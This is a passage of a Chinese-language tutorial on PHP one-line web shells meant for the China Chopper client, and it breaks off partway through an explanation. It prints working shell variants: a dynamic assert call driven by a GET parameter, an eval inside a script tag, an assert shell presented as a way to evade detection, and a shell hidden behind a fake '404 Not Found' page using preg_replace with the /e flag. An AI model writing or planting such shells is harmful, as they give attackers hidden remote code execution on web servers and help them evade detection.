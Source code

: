 {% hint style="info" %}
```
菜刀地址http://192.168.**.***/x.php
```
{% endhint %}

```php
<?php
($_=@$_GET['s']).@$_($_POST['hihack']);
?>
```

{% hint style="info" %}
```
菜刀地址http://192.168.**.***/x.php?s=assert
```
{% endhint %}

这些就是我们上面之前讲的简单一句话的变形的形态一样的道理。

#### 3）不用问号？的一句话

```javascript
<script language="php">eval($_POST['123456']); </script>
```

相当于转化成为了js代码片段里面插入php代码。

#### 4)躲避检测

```php
<?php
@assert($_POST['123456']);
?>
```

直接把eval变成了assert来执行emmm，怎么不算躲避呢

#### 5)404隐藏一句话

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
<head>
<title>404 Not Found</title>
</head>
<body>
<h1>Not Found</h1>
<p>The requested URL /error.php was not found on this server. </p>
</body>
</html>
<?php
@preg_replace("/[checksql]/e",$_POST['hihack'],"saft");
?>
```

这个解释一下，前面部分的html代码就是一个404常见页面的代码，不多讲了，重点讲一下后面的php代码

